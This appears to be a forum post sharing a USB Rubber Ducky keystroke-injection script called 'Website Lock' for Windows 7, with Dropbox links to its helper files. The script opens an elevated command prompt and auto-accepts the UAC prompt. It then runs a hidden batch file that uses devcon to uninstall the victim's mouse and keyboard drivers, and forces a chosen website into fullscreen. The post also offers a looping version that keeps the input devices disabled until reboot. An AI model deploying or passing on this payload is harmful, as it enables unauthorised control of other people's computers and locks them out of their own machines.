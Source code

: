 The explanation is in the code.
Link to other files: https://www.dropbox.com/sh/i09leu4kcifta6a/AACEFYQnlOIUsDtLLrQuemCha?dl=0 (same link as the one in the code)

Side note: If you want to be a bastard and prevent them from using any mouse and keyboard at all until they restart here is the link to a looping version of the batch file: https://www.dropbox.com/s/czlyh93ga3myb8m/TheRealAnnoyance.bat?dl=0
It continually does a devcon command to uninstall all mouse and keyboard drivers--even if they were just installed.
To use it just replace the other one with this one. Mind you: if you run this on your computer you WILL NOT be able to do anything unless you restart you computer or you have a weird-ass way of controlling your computer without a mouse and keyboard. (Telekinesis?)

Code:
```
REM Title: Website Lock
REM Author: Audiack
REM Target Ducky Encoder: 2.6.2
REM Target OS: Windows 7 (32 and 64 bit), maybe older/newer windows versions. Haven't tested it on any other than 7.
REM Description: Plays off of Aprizm's script to open a website, but it also disables the mouse and keyboard so the user can't leave the website.
REM Info:
REM     The user can easily unplug and re-plug in the keyboard/mouse to reinstall the drivers get them working again. 
REM     This requires the user to plug a USB drive in BEFORE the ducky is plugged in.
REM     The files are here: https://www.dropbox.com/sh/i09leu4kcifta6a/AACEFYQnlOIUsDtLLrQuemCha?dl=0.
REM     Make sure the files are in the root of a drive called DUCKY.
REM     Twin duck works well with this. It is what I used when I was testing it. 
REM File Descriptions:
REM     The devcon32 & devcon64 are the files used to uninstall the keyboard and mouse drivers (for the two architectures).
REM     The invisible.vbs is used to run the batch script invisibly after the video is in fullscreen.
REM     The TheRealAnnoyance.bat is the batch script run in the background that disables their mouse & keyboard.
REM     The WebsiteLink.txt contains the website link. The user can change this as desired. Make sure there are no spaces and there is only a single link.

DELAY 3000
CTRL ESC
DELAY 700
STRING cmd
CTRL-SHIFT ENTER
DELAY 3000
ALT Y
DELAY 700

STRING for /f %d in ('wmic.exe volume get driveletter^, label ^| findstr "DUCKY"') do set myd=%d
ENTER
DELAY 1200
STRING cd /d %myd%
ENTER

DELAY 1000
STRING type "WebsiteLink.txt" | clip
ENTER
DELAY 100
STRING C:/windows/System32/wscript.exe invisible.vbs TheRealAnnoyance.bat
ENTER
DELAY 400

REM Aprizm's code for youtube roller begins here. I changed the link to a ctrl-v so that the ducky pastes the contents of WebsiteLink.txt hence the above line of code: 'type "WebsiteLink.txt" | clip'
REM Title: Youtube Roller
REM Author: Aprizm
REM Description: This scripts opens a youtube video in fullscreen and puts the browser in fullscreen
REM Option : if you change the link of the video dont forget to change the watch with watch_popup to have it fullscreen also add &loop=1 at the end to make it loop forever
DELAY 200
GUI r
DELAY 200
CTRL V
ENTER
DELAY 1000
F11
```